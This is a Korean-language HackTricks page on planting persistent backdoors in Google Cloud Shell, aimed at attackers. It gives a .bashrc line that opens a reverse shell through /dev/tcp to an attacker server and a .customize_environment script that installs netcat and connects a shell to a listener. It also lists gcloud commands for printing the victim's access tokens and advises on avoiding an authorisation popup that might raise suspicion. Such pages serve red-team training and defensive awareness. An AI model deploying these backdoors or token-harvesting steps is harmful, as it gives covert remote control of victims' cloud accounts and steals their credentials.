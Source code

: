 # GCP - 클라우드 셸 지속성

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **해킹 트릭을 공유하려면 PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)에 제출하세요
*
*
*
* github 저장소.

</details>

## 클라우드 셸

자세한 정보는 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 지속적인 백도어

[**Google Cloud Shell**](https://cloud.google.com/shell/)은 브라우저에서 클라우드 리소스에 대한 명령줄 액세스를 제공하며 관련 비용이 없습니다.

**웹 콘솔** 또는 **`gcloud cloud-shell ssh`**를 실행하여 Google의 Cloud Shell에 액세스할 수 있습니다.

이 콘솔에는 공격자에게 흥미로운 몇 가지 기능이 있습니다:

1. **Google Cloud에 액세스 권한이 있는 모든 Google 사용자**는 완전 인증된 Cloud Shell 인스턴스에 액세스할 수 있습니다(서비스 계정은 조직의 소유자일지라도 가능).
2. 해당 인스턴스는 **활동이 없는 경우 최소 120일 동안 홈 디렉터리를 유지**합니다.
3. 해당 인스턴스의 활동을 모니터링할 **조직의 기능이 없습니다**.

이는 기본적으로 공격자가 사용자의 홈 디렉터리에 백도어를 설치할 수 있으며 사용자가 적어도 120일마다 GC 셸에 연결한다면 백도어가 유지되고 공격자는 다음과 같이 실행할 때마다 쉘을 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

홈 폴더에 **`.customize_environment`**라는 다른 파일이 있습니다. 이 파일이 존재하면 사용자가 **클라우드 셸**에 액세스할 때마다 **실행**됩니다 (이전 기술과 마찬가지로). 사용자가 "자주" 클라우드 셸을 사용하는 한 이전 백도어를 삽입하거나 다음과 유사한 백도어를 삽입하여 지속성을 유지할 수 있습니다:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
인증이 필요한 작업을 처음 수행할 때 사용자의 브라우저에 팝업 인증 창이 나타납니다. 이 창을 수락해야 명령을 실행할 수 있습니다. 예기치 않은 팝업이 나타나면 의심을 불러일으키고 사용 중인 지속성 방법을 손상시킬 수 있습니다.
{% endhint %}

이것은 클라우드 셸에서 `gcloud projects list`를 실행할 때 (공격자로) 브라우저 사용자 세션에서 본 팝업입니다:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

그러나 사용자가 클라우드 셸을 활발하게 사용한 경우 팝업이 나타나지 않으며 사용자의 토큰을 수집할 수 있습니다.
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH 연결이 설정되는 방법

기본적으로 다음 3가지 API 호출이 사용됩니다:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (로컬에서 생성한 공개 키를 추가하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (인스턴스를 시작하도록 함)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (구글 클라우드 쉘의 IP를 알려줌)

그러나 [여기](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 더 많은 정보를 찾을 수 있습니다.

## 참고 자료

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
